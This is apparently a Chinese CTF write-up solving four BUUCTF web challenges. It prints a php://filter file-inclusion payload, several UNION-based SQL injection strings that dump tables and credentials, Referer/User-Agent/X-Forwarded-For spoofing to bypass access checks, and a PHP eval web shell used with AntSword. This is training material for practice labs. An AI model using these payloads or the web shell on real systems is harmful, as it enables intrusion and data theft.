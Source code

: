 ```yaml
---
title: Buuctf Web（9-12）
date: 2023-08-08 21:24:46
tags: CTF

---
```


### Buuctf Web（9-12）

#### 9、Secret File

查看源代码，有一个Archive_room.php文件

![image](https://github.com/dbqyw/qyw.github.io/assets/130265921/8f92bc8c-c00d-49e5-b321-488e99af3728)

查看该文件，有一个按钮

![image](https://github.com/dbqyw/qyw.github.io/assets/130265921/2f52ac5a-eb0a-4597-9639-8eb419803978)

点击按钮，没看到flag

![image](https://github.com/dbqyw/qyw.github.io/assets/130265921/28a170be-68bb-4f90-9875-e7bf863111a0)

从按钮处抓包，看到有一个secr3t.php文件

![image](https://github.com/dbqyw/qyw.github.io/assets/130265921/5d9d3bb9-5590-4daf-8431-6b327283fc89)

查看该文件，flag在flag.php里

![image](https://github.com/dbqyw/qyw.github.io/assets/130265921/970159db-f8ad-41b9-9a37-5fc0c5d48a0e)

查看该文件，还是没看到flag

![image](https://github.com/dbqyw/qyw.github.io/assets/130265921/ece77017-09c0-4f2e-9f32-8ec19c9a01af)

想到了PHP的封装协议，利用了filter伪协议，该协议刚好就能够查看文件包含的漏洞，所以当我们利用该协议查看flag.php时，会将它的源代码爆出来，但是因为base64的加密原因，所以我们还需要进行一次base64解密

构造payload: `/secr3t.php?file=php://filter/convert.base64-encode/resource=flag.php`

![image](https://github.com/dbqyw/qyw.github.io/assets/130265921/164dbeeb-bc18-4496-86b6-5c9324f74dfb)

看到一串base64编码，解码后得到flag

![image](https://github.com/dbqyw/qyw.github.io/assets/130265921/70bf11c6-f0cc-4c1d-912a-73bbfac52ebf)

```text
flag{657993f7-ec4c-4ccd-a411-1fbca834a5b5}
```

#### 10、LoveSQL

尝试万能密码

![image](https://github.com/dbqyw/qyw.github.io/assets/130265921/c41017b4-189d-4bb3-9734-cbe9b67f1176)

有显示

![image](https://github.com/dbqyw/qyw.github.io/assets/130265921/28f501c1-3599-4279-b421-f10026b15978)

尝试联合查询，查到3的时候回显正常

![image](https://github.com/dbqyw/qyw.github.io/assets/130265921/c732357b-32f9-4208-a8e8-1238c2ddc296)

爆数据库password=:`1' union select 1,2,database()#`

![image](https://github.com/dbqyw/qyw.github.io/assets/130265921/9e319507-1e47-4c7d-b1c3-513dfe8567dc)

爆出数据库名为geek

![image](https://github.com/dbqyw/qyw.github.io/assets/130265921/9ee2e800-9f8e-4e3c-84cd-74cc042130f7)

爆表名password=`1' union select 1,2,table_name from information_schema.tables where table_schema=database() limit 0,1#`

![image](https://github.com/dbqyw/qyw.github.io/assets/130265921/46fefaef-3e5b-4e25-879b-fe8d90e6a190)

爆出表名为geekuser

![image](https://github.com/dbqyw/qyw.github.io/assets/130265921/f86dda2c-490c-4565-9987-7debf9b563fc)

爆表名password=`1' union select 1,2,table_name from information_schema.tables where table_schema=database() limit 1,1#`

![image](https://github.com/dbqyw/qyw.github.io/assets/130265921/91e3ddbc-4172-46a3-bd4a-8475672d22ae)

爆出表名为l0ve1ysq1

![image](https://github.com/dbqyw/qyw.github.io/assets/130265921/48fad51e-7c1d-46c2-a62f-70096f1911b0)

爆列名password=`1' union select 1,2,group_concat(column_name) from information_schema.columns where table_name='l0ve1ysq1' #`

![image](https://github.com/dbqyw/qyw.github.io/assets/130265921/d75cf913-a8ff-42bc-a889-2520f7034e8a)

id,username,password

![image](https://github.com/dbqyw/qyw.github.io/assets/130265921/d4322e73-777f-41f7-a80d-216f16b92262)

爆数据：`/check.php?username=1&password=1' union select 1,2,group_concat(id,username,password) from l0ve1ysq1%23`

![image](https://github.com/dbqyw/qyw.github.io/assets/130265921/8f190d3d-18db-46dd-a153-14c2629ab419)

查看源代码，得到flag

![image](https://github.com/dbqyw/qyw.github.io/assets/130265921/847ee93b-2338-46f3-bd64-75dd2af16945)

```text
flag{7904eee7-45b3-4f8b-8eac-ecab975dac71}
```

#### 11、Http

查看页面源代码，发现有个Secret.php文件

![image](https://github.com/dbqyw/qyw.github.io/assets/130265921/fc1e582e-da71-41e3-ae68-398440843c32)

查看该文件，有一个网址

![image](https://github.com/dbqyw/qyw.github.io/assets/130265921/c8fae7de-4638-4717-894c-194b9ff5d21d)

提示：It doesn’t come from ‘https://www.Sycsecret.com’，就是说这个页面得来自https://www.Sycsecret.com，添加referer即可

```text
Referer头用于告诉web服务器，用户是从哪个页面找过来的
```

添加`Referer:https://www.Sycsecret.com`，send，提示Please use “Syclover” browser：请使用“Syclover”浏览器

![image](https://github.com/dbqyw/qyw.github.io/assets/130265921/06269527-d670-4189-8c9f-dc64374f0ec7)

```text
User-Agent头用于告诉web服务器用户使用的浏览器和操作系统信息
```

添加`User-Agent:Syclover`，send，提示No!!! you can only read this locally!!!：不! !您只能在本地阅读!!

![image](https://github.com/dbqyw/qyw.github.io/assets/130265921/b1b7a270-fb3d-4019-b4e7-6e174ce633a5)

添加`X-Forwarded-For:127.0.0.1`，send，得到flag

![image](https://github.com/dbqyw/qyw.github.io/assets/130265921/d6d19f27-7902-4f41-b3d7-741661d1f670)

```text
flag{43a4b431-f334-44b4-bcb3-aadf626871ac}
```

#### 12、Knife

使用蚁剑，安装教程[渗透工具：蚁剑教学 （安装+入门） - 知乎 (zhihu.com)](https://zhuanlan.zhihu.com/p/367151320)

构造payload：`/?<?php eval($_POST["Syc"]);?>`

打开蚁剑添加数据

URL地址为：http://1c5dc4d2-1605-4b89-99ba-90068b6d2182.node4.buuoj.cn:81/index.php

密码为：Syc


![image](https://github.com/dbqyw/qyw.github.io/assets/130265921/571e5c69-fd79-42ac-b19c-763a2829d8cd)

测试连接，连接成功，再点击添加

![image](https://github.com/dbqyw/qyw.github.io/assets/130265921/f59bd98d-4a3b-49f2-8a9c-1dcc3501da10)

右键单击，选择文件管理

![image](https://github.com/dbqyw/qyw.github.io/assets/130265921/57e65112-788b-4318-a13f-a71402bff8fa)

查看根目录，发现有个flag

![image](https://github.com/dbqyw/qyw.github.io/assets/130265921/10606a37-f6d4-4239-8dd6-d593206d2c52)

双击查看，得到flag

![image](https://github.com/dbqyw/qyw.github.io/assets/130265921/66b20406-1aeb-403e-9833-8ee8bbb16270)

```text
flag{1248bbb7-c099-4589-a699-63d87c2ec2d3}
```

